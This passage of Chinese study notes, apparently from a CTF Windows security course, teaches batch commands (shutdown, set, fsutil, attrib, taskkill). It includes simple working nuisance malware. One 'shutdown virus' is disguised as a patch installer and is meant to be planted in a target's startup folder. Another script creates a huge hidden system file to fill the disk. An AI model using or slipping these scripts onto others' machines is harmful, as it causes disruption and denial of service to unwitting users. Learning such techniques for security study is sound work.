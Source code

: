 ![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8764.png)

`title 窗口的标题` 

## 关机病毒
```
@echo off
title window 在线补 ding 安装
echo ==========================
echo 您好，欢迎使用本程序
echo ==============================
pause
shutdown /f /s /t 0
```
> 将上述病毒植入到目标计算机的启动文件中，可以实现每次开机后马上关闭

### 关机病毒升级版
```
@echo off
copy game.bat "C:\Documents and Settings\Administrator\「开始」菜单\程序\启动" shutdown /s /f /t 1
```

- set 设置变量
``` set /p x = 请输入您预定的关机时长（秒）```

请输入您预定的关机时长（秒）是提示文字，**由用户输入内容**，并保存子变量 x 当中

`Shutdown /s /t %x%` 以变量 x 的值为时长，定时关机

- 脚本：
```
@echo off
Title 延迟关机小程序
Echo ====================================
Echo 欢迎使用此脚本设置延迟关机
Echo ====================================
Set /p x = 请输入您预定的关机时长（秒）
Shutdown /s /t %x%
```

- 应用：例如我正在下载一个游戏，但是我有事要出门，我就可以写一个脚本定一个时间去关机。

- `set /a x=123*4/2` 不需要用户输入的变量用的是 `/a` ，非交互式赋值，赋值时可以使用数学运算符

13. `fsutil file createnew` 按照指定的大小创建文件 `fsutil file createnew e:\new.info 10000000000`

14. `attrib` 设置文件属性
- `attrib +h e:\new.info` 添加“隐藏”属性
- `attrib +s e:\new.info` 添加“系统”属性
- `attrib -h e:\new.info`取消“隐藏”属性
- `attrib -s e:\new.info` 取消“系统”属性

## 占用磁盘资源病毒
```
fsutil file createnew e:\new.info 10000000000
attrib +s +h e:\new.info
```


## `taskkill` 结束进程
- `taskkill   /im   explorer.exe   /f` 	强制关闭桌面进程

- 解决方法
 a. 关机、重启
 b. 重新启动 `explorer.exe` 进程
```